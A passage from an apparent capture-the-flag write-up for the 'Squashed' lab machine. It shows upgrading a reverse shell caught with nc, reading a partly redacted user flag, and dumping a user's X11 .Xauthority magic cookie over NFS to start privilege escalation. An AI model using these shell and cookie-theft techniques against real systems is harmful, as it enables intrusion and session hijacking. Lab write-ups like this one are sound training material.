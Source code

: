 The webpage just hangs, but there's a shell as alex at the listening
`nc`!

I'll use the `script` / `stty` shell upgrade trick (details
[here](https://www.youtube.com/watch?v=DqE6DxqJg8Q)):



    alex@squashed:/var/www.md$ script /dev/null -c bash
    Script started, file is /dev/null
    alex@squashed:/var/www.md$ ^Z
    [1]+  Stopped                 nc -lnvp 443
    oxdf@hacky$ stty raw -echo ; fg
    nc -lnvp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    alex@squashed:/var/www.md$ 



There's also a user flag in `/home/alex`:



    alex@squashed:/home/alex$ cat user.txt
    a699decf************************



## Shell as root

### View alex's GUI Session

The HackTricks page on [pentesting
X11](https://book.hacktricks.xyz/network-services-pentesting/6000-pentesting-x11#screenshots-capturing)
has a ton of good info here, much of which I'll be using in the
following steps.

#### Magic cookie

I noted above that there was a `.Xauthority` file in alex's home
directory. This is a cookie file used by X11 for authorization. This
[StackOverflow post / response](https://stackoverflow.com/a/37367518)
has a lot of good information on how these cookies are use. There are
five types of cookies, including:

> 1.  MIT-magic-cookie-1: Generating 128bit of key ("cookie"), storing
>     it in \~/.Xauthority (or where XAUTHORITY envvar points to). The
>     client sends it to server **plain**! the server checks whether it
>     has a copy of this "cookie" and if so, the connection is
>     permitted. the key is generated by DMX.

That matches what I observed in the hex dump from the cookie over NFS:



    dummy@hacky:/mnt$ xxd .Xauthority 
    00000000: 0100 000c 7371 7561 7368 6564 2e68 7462  ....squashed.htb
    00000010: 0001 3000 124d 4954 2d4d 4147 4943 2d43  ..0..MIT-MAGIC-C
    00000020: 4f4f 4b49 452d 3100 10f9 b01f 9b13 d3f7  OOKIE-1.........
    00000030: 4f29 2801 ff73 88ea bf                   O)(..s...

